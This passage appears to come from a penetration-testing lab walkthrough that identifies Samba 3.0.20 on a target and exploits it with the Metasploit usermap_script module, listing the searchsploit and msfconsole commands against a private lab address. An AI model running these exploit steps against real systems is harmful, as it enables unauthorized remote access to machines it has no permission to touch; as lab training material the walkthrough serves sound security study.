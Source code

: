 From this module output we conclude that target is running samba 3.0.20 and now we have to search for any exploit available for this version of samba
### Exploitation
```
searchsploit samba | grep 3.0.20
```
Here we got an usermap_script module of metasploit, that can exploit this samba version
```
msfconsole -q
msf > search usermap_script
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > show options
msf exploit(multi/samba/usermap_script) > set RHOSTS 192.168.1.103
msf exploit(multi/samba/usermap_script) > run
```
**Output**
![](../images/exploiting_samba_service_1.png)